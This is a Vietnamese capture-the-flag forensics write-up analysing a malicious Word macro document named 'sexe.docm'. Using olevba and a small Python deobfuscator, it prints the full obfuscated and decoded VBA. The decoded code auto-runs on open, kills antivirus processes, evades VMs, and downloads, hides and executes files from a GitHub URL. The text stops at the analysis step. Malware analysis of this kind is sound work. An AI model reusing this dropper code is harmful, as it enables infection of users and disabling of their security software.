






## Sexe
### Description 
- 
### Solution 
- Với bài này ta được cung cấp cho 1 file eml chứa file.
- Kiểm tra bên trong thì file word này chứa macro
- Như bao bài khác, mình sẽ sử dụng olevba đầu tiên 

<details>
<summary>
Kết quả của olevba
</summary>


```
┌──(kali㉿kali)-[~/Downloads]
└─$ olevba sexe.docm        
olevba 0.60.1 on Python 2.7.18 - http://decalage.info/python/oletools
===============================================================================
FILE: sexe.docm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin - OLE stream: u'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As LongPtr)
Private Declare PtrSafe Function TerminateProcess Lib "kernel32" (ByVal hProc As LongPtr, ByVal uExitCode As Long) As Long
Private Declare PtrSafe Function OpenProcess Lib "kernel32" (ByVal dwAccess As Long, ByVal bInherit As Long, ByVal dwProcId As Long) As LongPtr

Const C1 As Long = &H1

Function MjqZthLra()
    Dim FuoGvb As Object
    Dim UyRlwz As Object
    Dim DugOtw As Object
    Dim XpsVqi As Boolean
    Dim WyAqtk As Boolean
    Dim ApzHmd As Object
    Dim StrJqs As String

    XpsVqi = False
    WyAqtk = False

    Set FuoGvb = GetObject(ChrW(&H77) & ChrW(&H69) & ChrW(&H6E) & ChrW(&H6D) & ChrW(&H67) & ChrW(&H6D) & ChrW(&H74) & ChrW(&H73) & ChrW(&H3A) & ChrW(&H5C) & ChrW(&H5C) & ChrW(&H2E) & ChrW(&H5C) & ChrW(&H72) & ChrW(&H6F) & ChrW(&H6F) & ChrW(&H74) & ChrW(&H5C) & ChrW(&H63) & ChrW(&H69) & ChrW(&H6D) & ChrW(&H76) & ChrW(&H32))
    Set UyRlwz = FuoGvb.ExecQuery(ChrW(&H53) & ChrW(&H65) & ChrW(&H6C) & ChrW(&H65) & ChrW(&H63) & ChrW(&H74) & ChrW(&H20) & ChrW(&H2A) & ChrW(&H20) & ChrW(&H66) & ChrW(&H72) & ChrW(&H6F) & ChrW(&H6D) & ChrW(&H20) & ChrW(&H57) & ChrW(&H69) & ChrW(&H6E) & ChrW(&H33) & ChrW(&H32) & ChrW(&H5F) & ChrW(&H50) & ChrW(&H72) & ChrW(&H6F) & ChrW(&H63) & ChrW(&H65) & ChrW(&H73) & ChrW(&H73))                                                                                                                         

    For Each DugOtw In UyRlwz
        If InStr(1, LCase(DugOtw.Name), ChrW(&H76) & ChrW(&H6D) & ChrW(&H77) & ChrW(&H61) & ChrW(&H72) & ChrW(&H65) & ChrW(&H74) & ChrW(&H72) & ChrW(&H61) & ChrW(&H79) & ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65)) > 0 Or _
           InStr(1, LCase(DugOtw.Name), ChrW(&H76) & ChrW(&H6D) & ChrW(&H74) & ChrW(&H6F) & ChrW(&H6F) & ChrW(&H6C) & ChrW(&H73) & ChrW(&H64) & ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65)) > 0 Or _
           InStr(1, LCase(DugOtw.Name), ChrW(&H76) & ChrW(&H62) & ChrW(&H6F) & ChrW(&H78) & ChrW(&H73) & ChrW(&H65) & ChrW(&H72) & ChrW(&H76) & ChrW(&H69) & ChrW(&H63) & ChrW(&H65) & ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65)) > 0 Or _
           InStr(1, LCase(DugOtw.Name), ChrW(&H76) & ChrW(&H62) & ChrW(&H6F) & ChrW(&H78) & ChrW(&H74) & ChrW(&H72) & ChrW(&H61) & ChrW(&H79) & ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65)) > 0 Then
            XpsVqi = True
            Exit For
        End If

        If InStr(1, LCase(DugOtw.Name), ChrW(&H61) & ChrW(&H76) & ChrW(&H67) & ChrW(&H73) & ChrW(&H76) & ChrW(&H63) & ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65)) > 0 Or _
           InStr(1, LCase(DugOtw.Name), ChrW(&H61) & ChrW(&H76) & ChrW(&H67) & ChrW(&H75) & ChrW(&H61) & ChrW(&H72) & ChrW(&H64) & ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65)) > 0 Or _
           InStr(1, LCase(DugOtw.Name), ChrW(&H6D) & ChrW(&H73) & ChrW(&H6D) & ChrW(&H70) & ChrW(&H65) & ChrW(&H6E) & ChrW(&H67) & ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65)) > 0 Or _
           InStr(1, LCase(DugOtw.Name), ChrW(&H61) & ChrW(&H76) & ChrW(&H70) & ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65)) > 0 Or _
           InStr(1, LCase(DugOtw.Name), ChrW(&H6E) & ChrW(&H6F) & ChrW(&H72) & ChrW(&H74) & ChrW(&H6F) & ChrW(&H6E) & ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65)) > 0 Then
            SrApwoQu = OpenProcess(AwkMnjpGx, 0, DugOtw.ProcessId)
            If SrApwoQu <> 0 Then
                TerminateProcess SrApwoQu, 1
            End If
            Exit For
        End If
    Next DugOtw
    
    If XpsVqi Then
        Exit Function
    End If

    StrJqs = ChrW(&H43) & ChrW(&H3A) & ChrW(&H5C) & ChrW(&H55) & ChrW(&H73) & ChrW(&H65) & ChrW(&H72) & ChrW(&H73) & ChrW(&H5C) & ChrW(&H44) & ChrW(&H65) & ChrW(&H66) & ChrW(&H61) & ChrW(&H75) & ChrW(&H31) & ChrW(&H74) & ChrW(&H5C)
    Set ApzHmd = CreateObject(ChrW(&H53) & ChrW(&H63) & ChrW(&H72) & ChrW(&H69) & ChrW(&H70) & ChrW(&H74) & ChrW(&H69) & ChrW(&H6E) & ChrW(&H67) & ChrW(&H2E) & ChrW(&H46) & ChrW(&H69) & ChrW(&H6C) & ChrW(&H65) & ChrW(&H53) & ChrW(&H79) & ChrW(&H73) & ChrW(&H74) & ChrW(&H65) & ChrW(&H6D) & ChrW(&H4F) & ChrW(&H62) & ChrW(&H6A) & ChrW(&H65) & ChrW(&H63) & ChrW(&H74))

    If Not ApzHmd.FolderExists(StrJqs) Then
        ApzHmd.CreateFolder (StrJqs)
        Shell Join(Array(ChrW(&H63) & ChrW(&H6D) & ChrW(&H64) & ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65), ChrW(&H2F) & ChrW(&H63), ChrW(&H61) & ChrW(&H74) & ChrW(&H74) & ChrW(&H72) & ChrW(&H69) & ChrW(&H62) & ChrW(&H20) & ChrW(&H2B) & ChrW(&H68), StrJqs), ChrW(&H20)), vbHide                                                    
    End If
End Function

Function ZvyJxkrbxq() As Variant
    Dim YcQropu(1 To 100) As String
    Dim AyPgrf As Integer
    For AyPgrf = 1 To 98
        YcQropu(AyPgrf) = AyPgrf & ChrW(&H2E) & ChrW(&H67) & ChrW(&H6F) & ChrW(&H64) & ChrW(&H65) & ChrW(&H66) & ChrW(&H65) & ChrW(&H6E) & ChrW(&H64)
    Next AyPgrf

    ZvyJxkrbxq = YcQropu
End Function

Function HxvRibfksk(StrJta As String)
    Dim XgQpHr As Object
    Dim LpVotC As Object
    Dim ZpRfSb As String
    ZpRfSb = QkBfsnblqz(StrJta)
    Set XgQpHr = CreateObject("MSXML2.ServerXMLHTTP")
    XgQpHr.Open "GET", StrJta, False
    XgQpHr.Send
    
    If XgQpHr.Status = 200 Then
        Set LpVotC = CreateObject("ADODB.Stream")
        With LpVotC
            .Type = 1
            .Open
            .Write XgQpHr.responseBody
            .SaveToFile ZpRfSb, 2
            .Close
        End With
        Shell Join(Array("cmd.exe", "/c", "attrib +h", ZpRfSb), " "), vbHide
    Else
        Exit Function
    End If
End Function

Function QkBfsnblqz(ByVal XlCvI As String) As String
    Dim WvDlR As String
    Dim JzHgLn() As String
    Dim VbYdQ As String
    
    VbYdQ = ChrW(&H43) & ChrW(&H3A) & ChrW(&H5C) & ChrW(&H55) & ChrW(&H73) & ChrW(&H65) & ChrW(&H72) & ChrW(&H73) & ChrW(&H5C) & ChrW(&H44) & ChrW(&H65) & ChrW(&H66) & ChrW(&H61) & ChrW(&H75) & ChrW(&H31) & ChrW(&H74) & ChrW(&H5C)                                                                                                          
    JzHgLn = Split(XlCvI, ChrW(&H2F))
    WvDlR = JzHgLn(UBound(JzHgLn))
    QkBfsnblqz = VbYdQ & WvDlR
End Function


Function JkYpCwv()
    Dim JfKxh As Object
    Dim VsHk As String
    Dim HkGdJ As Object
    Dim BvQkl As String
    Dim JsWp As String
    Dim FtEr As String
    Dim CfGk As String
    Dim WgRk As Integer
    Dim Mq As Integer
    CfGk = ChrW(&H43) & ChrW(&H3A) & ChrW(&H5C) & ChrW(&H55) & ChrW(&H73) & ChrW(&H65) & ChrW(&H72) & ChrW(&H73) & ChrW(&H5C) & ChrW(&H44) & ChrW(&H65) & ChrW(&H66) & ChrW(&H61) & ChrW(&H75) & ChrW(&H31) & ChrW(&H74) & ChrW(&H5C)                                                                                                           
    Set JfKxh = CreateObject("Scripting.FileSystemObject")
    For Each file In JfKxh.GetFolder(CfGk).Files
        VsHk = file.Path
        Set HkGdJ = CreateObject("ADODB.Stream")
        HkGdJ.Type = 1
        HkGdJ.Open
        HkGdJ.LoadFromFile VsHk
        ZrBe = HkGdJ.Read(4)
        HkGdJ.Close
        BvQkl = ""
        For Mq = LBound(ZrBe) To UBound(ZrBe)
            WgRk = ZrBe(Mq)
            BvQkl = BvQkl & Right("00" & Hex(WgRk), 2)
        Next Mq
        Select Case BvQkl
            Case "FFD8FF"
                JsWp = ChrW(&H2E) & ChrW(&H6A) & ChrW(&H70) & ChrW(&H67)
            Case "89504E47"
                JsWp = ChrW(&H2E) & ChrW(&H70) & ChrW(&H6E) & ChrW(&H67)
            Case "47494638"
                JsWp = ChrW(&H2E) & ChrW(&H67) & ChrW(&H69) & ChrW(&H66)
            Case "4D5A9000"
                JsWp = ChrW(&H2E) & ChrW(&H65) & ChrW(&H78) & ChrW(&H65)
            Case Else
                JsWp = ChrW(&H2E) & ChrW(&H75) & ChrW(&H6E) & ChrW(&H6B) & ChrW(&H6E) & ChrW(&H6F) & ChrW(&H77) & ChrW(&H6E)
        End Select
        FtEr = JfKxh.GetBaseName(VsHk) & JsWp
        If JsWp <> ChrW(&H2E) & ChrW(&H75) & ChrW(&H6E) & ChrW(&H6B) & ChrW(&H6E) & ChrW(&H6F) & ChrW(&H77) & ChrW(&H6E) Then
            JfKxh.MoveFile VsHk, CfGk & FtEr
            Sleep 1000
            Shell "cmd.exe /c start """" """ & CfGk & FtEr & """", vbHide
        End If
    Next file
    Sleep 1000
End Function


Private Sub Document_Open()
    Dim targetFileName As String
    targetFileName = "sexe.docm"
    If ThisDocument.Name = targetFileName Then
        On Error Resume Next
        Dim YjB As Variant
        MjqZthLra
        YjB = ZvyJxkrbxq()
        
        Dim i As Integer
        Dim x18927312q As String
        Dim ykajsy98q9 As String
        Dim z918273aqw As String
        Dim w128737921 As String
        Dim o888q87w66 As String
        Dim q918273912 As String
        Dim A120382103 As String
        Dim B817263893 As String
        Dim C098q0w812 As String
        Dim D98128703a As String
        Dim Eoiaoq9098 As String
        
        A = ChrW(&H68) & ChrW(&H74) & ChrW(&H74) & ChrW(&H70) & ChrW(&H3A) & ChrW(&H2F) & ChrW(&H2F) & ChrW(&H31) & ChrW(&H39) & ChrW(&H32) & ChrW(&H2E) & ChrW(&H31) & ChrW(&H36) & ChrW(&H38) & ChrW(&H2E) & ChrW(&H35) & ChrW(&H36) & ChrW(&H2E) & ChrW(&H31) & ChrW(&H3A) & ChrW(&H38) & ChrW(&H30) & ChrW(&H38) & ChrW(&H31) & ChrW(&H2F)  
    
        x18927312q = ChrW(&H68) & ChrW(&H74) & ChrW(&H74) & ChrW(&H70) & ChrW(&H73) & ChrW(&H3A) & ChrW(&H2F) & ChrW(&H2F)
        A120382103 = "687474703A2F2F6578616D706C652E636F6D2F66616B653120"
        ykajsy98q9 = ChrW(&H67) & ChrW(&H69) & ChrW(&H74) & ChrW(&H68) & ChrW(&H75) & ChrW(&H62) & ChrW(&H2E) & ChrW(&H63)
        z918273aqw = ChrW(&H6F) & ChrW(&H6D) & ChrW(&H2F) & ChrW(&H30) & ChrW(&H78) & ChrW(&H4B) & ChrW(&H43) & ChrW(&H53)
        w128737921 = ChrW(&H43) & ChrW(&H2F) & ChrW(&H64) & ChrW(&H65) & ChrW(&H6D) & ChrW(&H6F) & ChrW(&H2D) & ChrW(&H6F)
        o888q87w66 = ChrW(&H6E) & ChrW(&H6C) & ChrW(&H79) & ChrW(&H2F) & ChrW(&H72) & ChrW(&H61) & ChrW(&H77) & ChrW(&H2F)
        q918273912 = ChrW(&H6D) & ChrW(&H61) & ChrW(&H69) & ChrW(&H6E) & ChrW(&H2F)
        For i = 1 To 98
            HxvRibfksk (x18927312q & ykajsy98q9 & z918273aqw & w128737921 & o888q87w66 & q918273912 & YjB(i))
        Next i
        JkYpCwv
    
        On Error GoTo 0
    End If
End Sub


+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|GetObject           |May get an OLE object with a running instance|
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|MoveFile            |May move a file                              |
|Suspicious|ADODB.Stream        |May create a text file                       |
|Suspicious|SaveToFile          |May create a text file                       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|vbHide              |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Open                |May open a file                              |
|Suspicious|Write               |May write to a file (if combined with Open)  |
|Suspicious|Lib                 |May run code from a DLL                      |
|Suspicious|ChrW                |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|MSXML2.ServerXMLHTTP|May download files from the Internet         |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |cmd.exe             |Executable file name                         |
|IOC       |http://example.com/f|URL (obfuscation: Hex)                       |
|          |ake1                |                                             |
|Hex String|GIF8                |47494638                                     |
|Hex String|http://example.com/f|687474703A2F2F6578616D706C652E636F6D2F66616B6|
|          |ake1                |53120                                        |
+----------+--------------------+---------------------------------------------+

```
</details>

- Có thể thấy rằng mã đã bị obfuscation bằng các hàm ChrW, ta sẽ viết 1 script nhỏ để deobfuscation
```
import re

def deobfuscate_file(input_file):
    with open(input_file, 'r', encoding='utf-8') as file:
        content = file.read()

    # Hàm để giải mã chuỗi ChrW
    def replace_chr(match):
        hex_value = match.group(1)
        return chr(int(hex_value, 16))

    # Thay thế tất cả các chuỗi "ChrW(&Hxx)" bằng ký tự tương ứng
    decoded_content = re.sub(r'ChrW\(&H([0-9A-Fa-f]{1,4})\)', replace_chr, content)

    # Ghi lại nội dung đã thay thế vào file gốc
    with open(input_file, 'w', encoding='utf-8') as file:
        file.write(decoded_content)

# Sử dụng hàm
input_file = 'sexe.txt'  # Thay đổi đường dẫn tới file đầu vào của bạn
deobfuscate_file(input_file)

print(f'Decoding and replacing has been completed in {input_file}.')
```
- Đoạn mã này thay thế các giá trị trong ChrW thành các kí tự, tiếp theo ta sử dụng CyberChef để thay thế dấu & 
- Và đây là kết quả cuối cùng 
```
olevba 0.60.1 on Python 2.7.18 - http://decalage.info/python/oletools
===============================================================================
FILE: sexe.docm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: word/vbaProject.bin - OLE stream: u'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Declare PtrSafe Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As LongPtr)
Private Declare PtrSafe Function TerminateProcess Lib "kernel32" (ByVal hProc As LongPtr, ByVal uExitCode As Long) As Long
Private Declare PtrSafe Function OpenProcess Lib "kernel32" (ByVal dwAccess As Long, ByVal bInherit As Long, ByVal dwProcId As Long) As LongPtr

Const C1 As Long = &H1

Function MjqZthLra()
    Dim FuoGvb As Object
    Dim UyRlwz As Object
    Dim DugOtw As Object
    Dim XpsVqi As Boolean
    Dim WyAqtk As Boolean
    Dim ApzHmd As Object
    Dim StrJqs As String

    XpsVqi = False
    WyAqtk = False

    Set FuoGvb = GetObject(winmgmts:\\.\root\cimv2)
    Set UyRlwz = FuoGvb.ExecQuery(Select * from Win32_Process)

    For Each DugOtw In UyRlwz
        If InStr(1, LCase(DugOtw.Name), vmwaretray.exe) > 0 Or _
           InStr(1, LCase(DugOtw.Name), vmtoolsd.exe) > 0 Or _
           InStr(1, LCase(DugOtw.Name), vboxservice.exe) > 0 Or _
           InStr(1, LCase(DugOtw.Name), vboxtray.exe) > 0 Then
            XpsVqi = True
            Exit For
        End If

        If InStr(1, LCase(DugOtw.Name), avgsvc.exe) > 0 Or _
           InStr(1, LCase(DugOtw.Name), avguard.exe) > 0 Or _
           InStr(1, LCase(DugOtw.Name), msmpeng.exe) > 0 Or _
           InStr(1, LCase(DugOtw.Name), avp.exe) > 0 Or _
           InStr(1, LCase(DugOtw.Name), norton.exe) > 0 Then
            SrApwoQu = OpenProcess(AwkMnjpGx, 0, DugOtw.ProcessId)
            If SrApwoQu <> 0 Then
                TerminateProcess SrApwoQu, 1
            End If
            Exit For
        End If
    Next DugOtw
    
    If XpsVqi Then
        Exit Function
    End If

    StrJqs = C:\Users\Defau1t\
    Set ApzHmd = CreateObject(Scripting.FileSystemObject)

    If Not ApzHmd.FolderExists(StrJqs) Then
        ApzHmd.CreateFolder (StrJqs)
        Shell Join(Array(cmd.exe, /c, attrib +h, StrJqs),  ), vbHide
    End If
End Function

Function ZvyJxkrbxq() As Variant
    Dim YcQropu(1 To 100) As String
    Dim AyPgrf As Integer
    For AyPgrf = 1 To 98
        YcQropu(AyPgrf) = AyPgrf.godefend
    Next AyPgrf

    ZvyJxkrbxq = YcQropu
End Function

Function HxvRibfksk(StrJta As String)
    Dim XgQpHr As Object
    Dim LpVotC As Object
    Dim ZpRfSb As String
    ZpRfSb = QkBfsnblqz(StrJta)
    Set XgQpHr = CreateObject("MSXML2.ServerXMLHTTP")
    XgQpHr.Open "GET", StrJta, False
    XgQpHr.Send
    
    If XgQpHr.Status = 200 Then
        Set LpVotC = CreateObject("ADODB.Stream")
        With LpVotC
            .Type = 1
            .Open
            .Write XgQpHr.responseBody
            .SaveToFile ZpRfSb, 2
            .Close
        End With
        Shell Join(Array("cmd.exe", "/c", "attrib +h", ZpRfSb), " "), vbHide
    Else
        Exit Function
    End If
End Function

Function QkBfsnblqz(ByVal XlCvI As String) As String
    Dim WvDlR As String
    Dim JzHgLn() As String
    Dim VbYdQ As String
    
    VbYdQ = C:\Users\Defau1t\
    JzHgLn = Split(XlCvI, /)
    WvDlR = JzHgLn(UBound(JzHgLn))
    QkBfsnblqz = VbYdQWvDlR
End Function


Function JkYpCwv()
    Dim JfKxh As Object
    Dim VsHk As String
    Dim HkGdJ As Object
    Dim BvQkl As String
    Dim JsWp As String
    Dim FtEr As String
    Dim CfGk As String
    Dim WgRk As Integer
    Dim Mq As Integer
    CfGk = C:\Users\Defau1t\
    Set JfKxh = CreateObject("Scripting.FileSystemObject")
    For Each file In JfKxh.GetFolder(CfGk).Files
        VsHk = file.Path
        Set HkGdJ = CreateObject("ADODB.Stream")
        HkGdJ.Type = 1
        HkGdJ.Open
        HkGdJ.LoadFromFile VsHk
        ZrBe = HkGdJ.Read(4)
        HkGdJ.Close
        BvQkl = ""
        For Mq = LBound(ZrBe) To UBound(ZrBe)
            WgRk = ZrBe(Mq)
            BvQkl = BvQklRight("00"Hex(WgRk), 2)
        Next Mq
        Select Case BvQkl
            Case "FFD8FF"
                JsWp = .jpg
            Case "89504E47"
                JsWp = .png
            Case "47494638"
                JsWp = .gif
            Case "4D5A9000"
                JsWp = .exe
            Case Else
                JsWp = .unknown
        End Select
        FtEr = JfKxh.GetBaseName(VsHk)JsWp
        If JsWp <> .unknown Then
            JfKxh.MoveFile VsHk, CfGkFtEr
            Sleep 1000
            Shell "cmd.exe /c start """" """CfGkFtEr"""", vbHide
        End If
    Next file
    Sleep 1000
End Function


Private Sub Document_Open()
    Dim targetFileName As String
    targetFileName = "sexe.docm"
    If ThisDocument.Name = targetFileName Then
        On Error Resume Next
        Dim YjB As Variant
        MjqZthLra
        YjB = ZvyJxkrbxq()
        
        Dim i As Integer
        Dim x18927312q As String
        Dim ykajsy98q9 As String
        Dim z918273aqw As String
        Dim w128737921 As String
        Dim o888q87w66 As String
        Dim q918273912 As String
        Dim A120382103 As String
        Dim B817263893 As String
        Dim C098q0w812 As String
        Dim D98128703a As String
        Dim Eoiaoq9098 As String
        
        A = http://192.168.56.1:8081/
    
        x18927312q = https://
        A120382103 = "687474703A2F2F6578616D706C652E636F6D2F66616B653120"
        ykajsy98q9 = github.c
        z918273aqw = om/0xKCS
        w128737921 = C/demo-o
        o888q87w66 = nly/raw/
        q918273912 = main/
        For i = 1 To 98
            HxvRibfksk (x18927312qykajsy98q9z918273aqww128737921o888q87w66q918273912YjB(i))
        Next i
        JkYpCwv
    
        On Error GoTo 0
    End If
End Sub


+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|Suspicious|GetObject           |May get an OLE object with a running instance|
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|MoveFile            |May move a file                              |
|Suspicious|ADODB.Stream        |May create a text file                       |
|Suspicious|SaveToFile          |May create a text file                       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|vbHide              |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Open                |May open a file                              |
|Suspicious|Write               |May write to a file (if combined with Open)  |
|Suspicious|Lib                 |May run code from a DLL                      |
|Suspicious|ChrW                |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|MSXML2.ServerXMLHTTP|May download files from the Internet         |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |cmd.exe             |Executable file name                         |
|IOC       |http://example.com/f|URL (obfuscation: Hex)                       |
|          |ake1                |                                             |
|Hex String|GIF8                |47494638                                     |
|Hex String|http://example.com/f|687474703A2F2F6578616D706C652E636F6D2F66616B6|
|          |ake1                |53120                                        |
+----------+--------------------+---------------------------------------------+
```
- Đọc src, ta thấy rằng nó gọi đến và lấy dữ liệu từ `https://github.com/0xKCSC/demo-only/raw/main/687474703A2F2F6578616D706C652E636F6D2F66616B653120`

- Tiếp theo là đổi đuôi và thực thi nó dựa trên hàm JkYpCwv
- Ta sẽ lấy dữ liệu từ github có user là 0xKCSC
- 
